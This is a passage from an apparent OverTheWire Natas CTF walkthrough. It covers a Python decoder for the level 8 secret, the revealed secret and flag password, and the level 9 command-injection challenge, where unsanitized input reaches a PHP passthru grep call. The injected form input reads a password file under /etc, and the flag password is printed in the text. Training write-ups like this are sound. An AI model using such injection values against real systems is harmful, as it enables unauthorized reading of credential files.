 ```php
    } else {
    print "Wrong secret";
    }
}
?>
```
{% endtab %}
{% tab title="decoder.py" %}
```python
import base64

def natasDecode(secret):
    # first we convert from hex -> string
    secret = bytearray.fromhex(secret).decode()
    # then we reverse the string
    secret = secret[::-1]
    # then we base64 decode the string
    secret = base64.b64decode(secret)
    # then we convert from bytearray to str for printing
    return secret.decode("utf-8")


plaintext = natasDecode('3d3d516343746d4d6d6c315669563362')
print(plaintext)
```
{% endtab %}
{% tab title="Secret" %}
```
oubWYf2kBq
```
{% endtab %}
{% tab title="Flag" %}
```
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```
{% endtab %}
{% endtabs %}
## Level 9

In this challenge we are given a form that is then used to run `grep` via php. But it is not sanitizing input, so we can manipulate the command to read the flag file instead. The original php as well as the input needed to obtain the flag are shown below:

{% tabs %}
{% tab title="PHP Grep" %}
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
{% endtab %}
{% tab title="Form Input" %}
```
-e ".*" /etc/natas_webpass/natas10;
```
{% endtab %}
{% tab title="Flag" %}
